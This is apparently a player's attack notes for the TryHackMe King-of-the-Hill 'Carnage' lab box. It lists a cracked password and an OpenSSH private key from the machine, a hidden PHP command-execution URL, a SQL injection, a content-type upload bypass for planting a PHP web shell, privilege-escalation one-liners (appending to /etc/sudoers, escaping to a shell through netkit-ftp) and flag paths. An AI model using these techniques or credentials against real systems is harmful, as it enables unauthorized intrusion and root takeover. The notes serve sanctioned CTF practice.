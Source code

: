 # Carnage THM KOTH

#### Important no `chattr` on the box

#### Map
```
nmap service overview
```

#### Default Credentials
```bash
yoda
duku

# These credentials come from a sqlite database, `web.db`, found in the web2 (port 82) website's folder, accessible after compromise
boba : -`G)8(t/NDkZ"u^{

# duku r_sa key:

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACATQLVIr77yK4TwcZZ1u0DX/qaSue5NNUkDz4roBYT0zgAAAIjrCGAZ6whg
GQAAAAtzc2gtZWQyNTUxOQAAACATQLVIr77yK4TwcZZ1u0DX/qaSue5NNUkDz4roBYT0zg
AAAEC3POa13ftnfCfC3LhqDZ04lSEUQK3+OMtomXRmTI1WjhNAtUivvvIrhPBxlnW7QNf+
ppK57k01SQPPiugFhPTOAAAABGR1a3UB
-----END OPENSSH PRIVATE KEY-----
```

#### Network Services to Foothold
```
Port 80 has a hidden site at `/3ef043d9e9c5d19b9db6d87c6f23b290/dice.php?action=metsys&text=di` - it gives command execution as `yoda`, with the text needing to be reversed
```

```
:81 is vulnerable to sql injection over  `web.db`
```

```
Port 82 hosts a file upload site, that only checks the stated upload content type. By setting this as `image/png` and adding an extension like `.png.php`, an otherwise standard php web shell can be uploaded. This will get you access as the user `duku`
```

#### Privilege Escalation

Bobba only:
```
find /etc/sudoers -exec bash -c 'echo "bobba ALL=(ALL:ALL) ALL" >> /etc/sudoers
```

Not in GTFOBins [ChrisPritchard KOTH Carnage](https://github.com/ChrisPritchard/ctf-writeups/blob/master/tryhackme-koth/koth-carnage.md)
```bash
/usr/bin/netkit-ftp !/bin/sh
```
#### Flags
Flags append only flag set, and there is no chattr on the machine I could find. To add user use `echo Aquinas >> king.txt`
```
/home/bobba/flag1.txt (rot13)
/home/yoda/flag2.txt (hex)
/home/duku/flag3.txt
/root/flag4.txt
/var/www/html/web1/web.db
/var/www/html/web2/flag.txt
/var/www/html/web3/flag.txt
/root/king.txt
```

#### References

https://github.com/Machinh/Koth-THM/blob/main/CARNAGE
https://github.com/0x76OID/KOTH/blob/main/Carnage/Carnage.sh
https://github.com/ChrisPritchard/ctf-writeups/blob/master/tryhackme-koth/koth-carnage.md